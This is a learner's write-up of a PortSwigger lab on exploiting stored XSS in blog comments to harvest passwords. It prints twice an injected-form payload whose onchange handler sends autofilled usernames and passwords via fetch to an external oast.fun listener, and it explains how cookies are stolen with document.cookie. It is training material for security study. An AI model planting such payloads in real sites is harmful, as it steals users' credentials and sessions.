



# Lab: Exploiting cross-site scripting to capture passwords

**Difficulty:** Practitioner

**Link:** https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords

## Objective : This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

## Analysis
**Context:** Blog Comment, Elements Panel

**Payloads/Inputs Used**: 
`<input id=username name=username>`
`<input type=password name=password onchange='if(this.value.length) fetch("https://kutzqmziohlfmkiyyapx4cda5xfe58oib.oast.fun?username="+username.value+"&password="+this.value)'>`

XSS (Cross-Site Scripting) is just the tool they use to fill that gap. There are two types of XSS that exists:

**Pre-Auth XSS (Before You Login) Goal**: Password Steal Why: Because there is no "Session" to steal yet.

Imagine you are walking up to a bank teller, but you haven't identified yourself yet. The hacker cannot rob your account because the bank doesn't know who you are. The hacker needs your identity (credentials) first.

*The Scenario*: You visit a login page that has a vulnerability. You haven't typed anything yet.

*The Attack*: The hacker uses XSS to inject a script that creates a fake login form on top of the real one, or a script that records your keystrokes (Keylogger).

*The "Password Steal"*: You think you are typing your password into the website, but the malicious script is actually copying what you type and sending it to the hacker.

*The Result*: The hacker gets your username and password.

**Post-Auth XSS (After You Login) Goal**: Cookie Steal Why: Because they don't need the password if they have the "Key."

Now imagine you have already identified yourself to the bank. The bank gave you a VIP badge (the Session Cookie) that lets you walk into the vault without being asked for your name again. The hacker doesn't need to force you to reveal your password anymore; they just need that badge.

*The Scenario*: You are logged in and looking at your dashboard. You are "authenticated."

*The Attack*: You visit a compromised page or view a malicious comment. The XSS script executes in the background.

*The "Cookie Steal"*: The script runs a command (like document.cookie) to grab your VIP badge (Session ID) and sends it to the hacker's server.

*The Result*: The hacker puts that cookie in their browser. The website sees the valid cookie and lets the hacker in as you, without them ever knowing your password.

**The Critical Difference Pre-Auth is Phishing**: It relies on tricking you into giving them information (typing the password).

**Post-Auth is Theft**: It relies on the script taking information that already exists (the active cookie).

I need to submit an input payload that causes the user's password to be sent to us as soon as they view my comment. So I used this payload:

`<input id=username name=username>`
`<input type=password name=password onchange='if(this.value.length) fetch("https://kutzqmziohlfmkiyyapx4cda5xfe58oib.oast.fun?username="+username.value+"&password="+this.value)'>`

1. *The "Honey Pot"* (The Input Fields) The code creates two input boxes:

<input id=username>: A box for the username.

<input type=password>: A box for the password. Why: These are placed here to trick the Browser, not necessarily the user. When a browser (like Chrome) sees a username and password field together, it thinks, "This is a login page, I should help the user!" and automatically fills in the saved username and password.

2. *The "Tripwire" (onchange)* The password field has a special instruction attached to it called onchange. Why: This instruction waits for the field to be filled. As soon as the browser autofills the password (or a user types it and clicks away), this event triggers.

3. *The "Theft" (fetch)* Once the tripwire is triggered, the code executes a fetch command. Why: This command silently sends a signal out to the internet. It grabs the text currently inside the username box and the password box.

4. *The Destination (oast.fun)* It sends that stolen data to the URL `https://kutzqmziohlfmkiyyapx4cda5xfe58oib.oast.fun`. 

**Why**: This is the hacker's listening server (likely using a tool like Burp Collaborator or Interactsh). The hacker is watching this server and will see a log entry pop up that says: `?username=admin&password=Secret123`.

I successfully grasped the underlying concept and process of credential harvesting via XSS. Unfortunately, I could not finalize the lab exercise as the exploitation vector requires Burp Collaborator, a feature exclusive to Burp Suite Professional, which I do not currently possess.